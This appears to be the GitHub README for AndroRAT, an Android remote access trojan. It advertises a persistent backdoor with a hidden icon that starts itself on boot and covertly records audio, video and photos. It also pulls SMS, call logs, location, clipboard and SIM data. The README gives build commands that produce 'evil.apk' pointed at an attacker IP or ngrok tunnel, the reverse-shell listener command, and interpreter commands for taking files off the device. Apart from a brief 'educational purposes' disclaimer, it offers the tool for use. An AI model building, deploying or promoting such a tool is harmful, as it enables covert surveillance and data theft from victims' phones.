



**Disclaimer** : This software is meant for educational purposes only. I'm not responsible for any malicious use of the app.
# AndroRAT 

[](https://opensource.org/licenses/MIT) 
[](https://twitter.com/karma9874)
[](https://github.com/karma9874)

AndroRAT is a tool designed to give the control of the android system remotely and retrieve informations from it. Androrat is a client/server application developed in Java Android for the client side and the Server is in Python.

##### AndroRAT will work on device from Android 4.1 (Jelly Bean) to Android 9.0 (Oreo) (API 16 to API 28)

> AndroRAT also works on Android 10 (Q) but some of the interpreter command will be unstable. 

## Screenshots


## Features of AndroRAT 
* Full persistent backdoor
* ~~Fully undetectable by any antivirus scanner [VirusTotal](https://www.virustotal.com/gui/file/e900b5d37ad8c8f79ca000b148253af04696a85fdfc245861cfb226dd86562df/detection)~~
* Invisible icon on install
* Light weight apk which runs 24*7 in background
* App starts automatically on boot up 
* Can record audio, video, take picture from both camera
* Browse call logs and SMS logs
* Get current location, sim card details ,ip, mac address of the device


## Prerequisites
AndroRAT requires Python3 and JAVA (or Android Studio)

## Installation
```
git clone https://github.com/karma9874/AndroRAT.git
cd AndroRAT
pip install -r requirements.txt
```
#### Note: 
While cloning the repository using Git bash on Windows, you may get the following error:
> error: unable to create file \<filename>: Filename too long

This is because the Git has a limit of 4096 characters for a filename, except on Windows when Git is compiled with msys. It uses an older version of the Windows API and there's a limit of 260 characters for a filename. 

You can circumvent this by setting `core.longpaths` to `true`.

> git config --system core.longpaths true

You must run Git bash with administrator privileges. 

## Usage (Windows and Linux)

* To get the control panel of the app dial `*#*#1337#*#*` (For now it has only two options `Restart Activity` and `Uninstall`)
> Note: In order to use this feature in some devices you need to enable the option `display pop-up windows running in background` from the settings.

### Available Modes
* `--build` - for building the android apk 
* `--ngrok` - for using ngrok tunnel (over the internet)
* `--shell` - getting an interactive shell of the device

### `build` mode

```
Usage:
  python3 androRAT.py --build --ngrok [flags]
  Flags:
    -p, --port              Attacker port number (optional by default its set to 8000)
    -o, --output            Name for the apk file (optional by default its set to "karma.apk")
    -icon, --icon           Visible icon after installing apk (by default set to hidden)
```

```
Usage:
  python3 androRAT.py --build [flags]
  Flags:
    -i, --ip                Attacker IP address (required)
    -p, --port              Attacker port number (required)
    -o, --output            Name for the apk file (optional)
    -icon, --icon           Visible icon after installing apk (by default set to hidden)
```

Or you can manually build the apk by importing [Android Code](Android_Code) folder to Android Studio and changing the IP address and port number in [config.java](Android_Code/app/src/main/java/com/example/reverseshell2/config.java) file and then you can generate the signed apk from `Android Studio -> Build -> Generate Signed APK(s)`
### `shell` mode
```
Usage:
  python3 androRAT.py --shell [flags]
  Flags:
    -i, --ip                Listner IP address
    -p, --port              Listner port number
```
After running the `shell` mode you will get an interpreter of the device  

Commands which can run on the interpreter
```
    deviceInfo                 --> returns basic info of the device
    camList                    --> returns cameraID  
    takepic [cameraID]         --> Takes picture from camera
    startVideo [cameraID]      --> starts recording the video
    stopVideo                  --> stop recording the video and return the video file
    startAudio                 --> starts recording the audio
    stopAudio                  --> stop recording the audio
    getSMS [inbox|sent]        --> returns inbox sms or sent sms in a file 
    getCallLogs                --> returns call logs in a file
    shell                      --> starts a sh shell of the device
    vibrate [number_of_times]  --> vibrate the device number of time
    getLocation                --> return the current location of the device
    getIP                      --> returns the ip of the device
    getSimDetails              --> returns the details of all sim of the device
    clear                      --> clears the screen
    getClipData                --> return the current saved text from the clipboard
    getMACAddress              --> returns the mac address of the device
    exit                       --> exit the interpreter
```
In the sh shell there are some sub commands
```
    get [full_file_path]        --> donwloads the file to the local machine (file size upto 15mb)
    put [filename]              --> uploads the file to the android device
```

## Examples

* To build the apk using ngrok which will also set the listner:
```python3 androRAT.py --build --ngrok -o evil.apk```

* To build the apk using desired ip and port:
```python3 androRAT.py --build -i 192.169.x.x -p 8000 -o evil.apk```

* To get the interpreter:
```python3 androRAT.py --shell -i 0.0.0.0 -p 8000```

## Interpreter Examples
* Generating APK
<p align="center">
  
</p>
------------------------------------------------------------------------------------------------------------------------------  

* Some interpreter Commands 
<p align="center">
  
</p>
------------------------------------------------------------------------------------------------------------------------------

## Supporters:
[](https://github.com/rayep)

## TODO
* ~~Ngrok support~~
* Set up multi client
* Add screenshot command


## License
AndroRAT is licensed under MIT license take a look at the [LICENSE](LICENSE) for more information.


